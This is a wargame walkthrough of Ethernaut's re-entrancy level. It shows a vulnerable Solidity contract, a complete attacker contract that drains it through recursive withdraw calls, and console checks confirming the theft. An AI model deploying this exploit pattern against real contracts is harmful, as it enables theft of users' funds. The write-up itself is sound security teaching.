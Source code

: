 # Level 10: Re-entrancy

This is the level 10 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity contract [receive](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function
- [call](https://docs.soliditylang.org/en/v0.6.0/types.html#address) method of addresses
- [Re-entrancy Attack](https://consensys.github.io/smart-contract-best-practices/known_attacks/) on Ethereum

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

`player` has to steal all of the contract's funds.

To those interested, the Re-entrancy attack was responsible for the [infamous DAO hack of 2016](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao#section-what-is-a-dao) which shook the whole Ethereum community. $60 million dollars of funds were stolen. Later, Ethereum blockchain was hard forked to restore stolen funds, but not all parties consented to decision. That led to splitting of network into distinct chains - Ethereum and Ethereum Classic.

First let's see amount stored in `Reentrace`:
```javascript
await getBalance(contract.address)

// Output: '0.001'
```

which is `0.001` ether or `1000000000000000` wei.

We're going to attack `Reentrance` with our written contract `ReentranceAttack`. Deploy it with target contract (`Reentrance`) address:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

Now call `donateAndWithdraw` of `ReentranceAttack` with value of `1000000000000000` (`0.001` ether) and chain reaction starts:
- First `targetContract.donate.value(msg.value)(address(this))` causes the `balances[msg.sender]` of `Reentrance` to set to sent amount. `donate` of `Reentrance` finishes it's execution
- Immediately after, `targetContract.withdraw(msg.value)` invokes withdraw of `Reentrance`, which sends the same donated amount back to `ReentranceAttack`.
- `receive` of `ReentranceAttack` is invoked. Note that `withdraw` hasn't finished execution yet! So still `balances[msg.sender]` is equal to initially donated amount. Now we call `withdraw` of `ReentranceAttack` again in receive.
- Second invocation of `withdraw` executes and it's passes the `require` statement this time again! So, it sends the `msg.sender` (`ReentranceAttack` address) that amount again!
- Simple arithmetic plays out and recursive execution is halted only when balance of `Reentrance` is reduced to 0.

And for the final blow withdraw stolen amount currently stored in `ReentranceAttack` to `player` address by calling `withdrawAll`.

Verify by checking `Reentrance`'s balance:
```javascript
await getBalance(contract.address)

// Output: '0'
```

Hacked!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
